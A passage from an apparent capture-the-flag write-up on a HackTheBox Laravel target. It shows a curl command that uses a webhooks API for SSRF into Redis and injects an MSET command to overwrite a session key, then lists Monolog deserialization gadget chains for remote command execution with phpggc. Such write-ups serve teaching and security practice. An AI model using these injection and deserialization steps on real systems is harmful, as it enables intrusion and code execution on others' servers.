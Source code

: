 ~~~zsh
# Get redis key using REDIS_PREFIX from .env
REDIS_PREFIX="laravel_session:"
redis_key="${REDIS_PREFIX}${session_id}"
echo $redis_key

# Write to our session
curl -so /dev/null "$webhooks_api/webhooks/$uuid" -H 'Content-Type: application/json' \
  -d '{"url":"http://redis:6379","method":"MSET '"$redis_key ''"'\r\n"}'
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~text
laravel_session:LkqHznYDBJZT4DWvZOx7JWCHF6IdKdy8i1tYl8Fs
~~~
{:file="STDOUT" .nolineno}

Now if we request [/home](http://cybermonday.htb/home) again with the matching session cookie, we should be redirected to the login page since our session is no longer valid.

![Verifying communication with redis server](web-burp-verify-redis.png)
_Check if session is still valid_


### Deserialization

Since we could control the serialized session data through SSRF to redis, we decided to try some PHP deserialization gadget chains created by [phpggc](https://github.com/ambionics/phpggc). we initially looked for Laravel RCE chains but could not find any matching the laravel version in use. Eventually we noticed that Monolog was being used as the logging driver for Laravel as defined in `config/loggin.php`{:.filepath}, and it had plenty of compatible gadgets chains.

~~~zsh
# Laravel gadgets are mostly incompatible :/
phpggc -l "Laravel"

# Many Monolog gadgets are supported through 2.x
phpggc -l "Monolog"
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~text
Gadget Chains
-------------

NAME            VERSION                            TYPE            VECTOR        I    
Monolog/FW1     3.0.0 <= 3.1.0+                    File write      __destruct    *    
Monolog/RCE1    1.4.1 <= 1.6.0 1.17.2 <= 2.7.0+    RCE: Command    __destruct         
Monolog/RCE2    1.4.1 <= 2.7.0+                    RCE: Command    __destruct         
Monolog/RCE3    1.1.0 <= 1.10.0                    RCE: Command    __destruct         
Monolog/RCE4    ? <= 2.4.4+                        RCE: Command    __destruct    *    
Monolog/RCE5    1.25 <= 2.7.0+                     RCE: Command    __destruct         
Monolog/RCE6    1.10.0 <= 2.7.0+                   RCE: Command    __destruct         
Monolog/RCE7    1.10.0 <= 2.7.0+                   RCE: Command    __destruct    *    
Monolog/RCE8    3.0.0 <= 3.1.0+                    RCE: Command    __destruct    *    
Monolog/RCE9    3.0.0 <= 3.1.0+                    RCE: Command    __destruct    *
~~~
{:file="STDOUT" .nolineno}
